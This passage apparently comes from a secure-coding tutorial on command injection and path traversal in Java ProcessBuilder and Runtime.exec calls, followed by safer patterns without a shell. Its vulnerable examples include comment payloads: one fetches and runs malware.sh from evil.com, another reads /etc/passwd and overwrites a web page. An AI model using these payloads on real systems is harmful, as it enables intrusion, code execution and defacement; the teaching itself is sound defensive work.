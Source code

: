 ProcessBuilder is Java's newer, safer way to run commands – but only if you use it correctly. When you invoke a shell through ProcessBuilder, you're right back to square one with injection vulnerabilities:

```java
// VULNERABLE - ProcessBuilder with shell
@PostMapping("/convert")
public void convertFile(@RequestParam String input, @RequestParam String output) {
    List<String> command = Arrays.asList("sh", "-c", 
        "ffmpeg -i " + input + " " + output);
    new ProcessBuilder(command).start();
}
// Attack: input = "video.mp4; wget evil.com/malware.sh; sh malware.sh;"
```

### Path traversal in commands

Combining path traversal with command injection creates a double threat. Attackers can both escape your intended directory and execute arbitrary commands:

```java
// VULNERABLE - Path traversal + command injection
@GetMapping("/logs")
public String viewLog(@RequestParam String logfile) {
    String command = "tail -n 100 /var/log/" + logfile;
    Process p = Runtime.getRuntime().exec(new String[]{"sh", "-c", command});
    return readOutput(p);
}
// Attack: logfile = "../../../etc/passwd; echo 'hacked' > /var/www/index.html"
```

## Safe patterns and remediation

### Avoid shell invocation

The golden rule of command execution: never invoke a shell unless absolutely necessary. When you bypass the shell and execute commands directly, special characters lose their power. They become just regular characters that can't break out of your command:

```java
// SAFE - Direct command without shell
@GetMapping("/disk-usage")
public String diskUsage(@RequestParam String directory) {
    // Validate input first
    if (!isValidDirectory(directory)) {
        throw new IllegalArgumentException("Invalid directory");
    }
    
    // Use array form without shell
    String[] command = {"du", "-sh", directory};
    Process p = Runtime.getRuntime().exec(command);
    return readOutput(p);
}

// SAFE - ProcessBuilder without shell
@PostMapping("/compress")
public void compressFile(@RequestParam String filename) {
    // Whitelist validation
    if (!filename.matches("^[a-zA-Z0-9._-]+$")) {
        throw new IllegalArgumentException("Invalid filename");
    }
    
    ProcessBuilder pb = new ProcessBuilder(
        "gzip", 
        "-9", 
        "/safe/path/" + filename
```